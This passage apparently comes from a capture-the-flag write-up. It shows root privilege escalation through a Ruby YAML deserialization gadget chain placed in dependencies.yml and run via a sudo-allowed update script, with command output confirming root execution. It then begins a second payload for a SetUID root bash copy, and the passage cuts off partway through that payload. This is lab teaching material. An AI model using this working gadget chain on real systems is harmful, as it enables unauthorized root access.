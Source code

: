 I’ll grab the POC from the gist and paste it into a file. Wherever I save it,
I’ll need to run the command from that directory:

    
    
    henry@precious:/dev/shm$ cat dependencies.yml 
    ---
    - !ruby/object:Gem::Installer
        i: x
    - !ruby/object:Gem::SpecFetcher
        i: y
    - !ruby/object:Gem::Requirement
      requirements:
        !ruby/object:Gem::Package::TarReader
        io: &1 !ruby/object:Net::BufferedIO
          io: &1 !ruby/object:Gem::Package::TarReader::Entry
             read: 0
             header: "abc"
          debug_output: &1 !ruby/object:Net::WriteAdapter
             socket: &1 !ruby/object:Gem::RequestSet
                 sets: !ruby/object:Net::WriteAdapter
                     socket: !ruby/module 'Kernel'
                     method_id: :system
                 git_set: id
             method_id: :resolve
    

Running now shows an error, the output of `id`, and then a traceback:

    
    
    henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
    sh: 1: reading: not found
    uid=0(root) gid=0(root) groups=0(root)
    Traceback (most recent call last):
            33: from /opt/update_dependencies.rb:17:in `<main>'
            32: from /opt/update_dependencies.rb:10:in `list_from_file'
    ...[snip]...
             1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
    /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
    

It’s easy to miss the `id` output with all the other lines, but it’s there,
and that’s execution as root!

### Shell

To get a shell, I’ll update my payload to copy `bash` and make the copy SetUID
and SetGID for root:

    
    
    ---
    - !ruby/object:Gem::Installer
        i: x
    - !ruby/object:Gem::SpecFetcher
        i: y
    - !ruby/object:Gem::Requirement
      requirements:
        !ruby/object:Gem::Package::TarReader
        io: &1 !ruby/object:Net::BufferedIO
          io: &1 !ruby/object:Gem::Package::TarReader::Entry
             read: 0
             header: "abc"
          debug_output: &1 !ruby/object:Net::WriteAdapter
             socket: &1 !ruby/object:Gem::RequestSet
                 sets: !ruby/object:Net::WriteAdapter
                     socket: !ruby/module 'Kernel'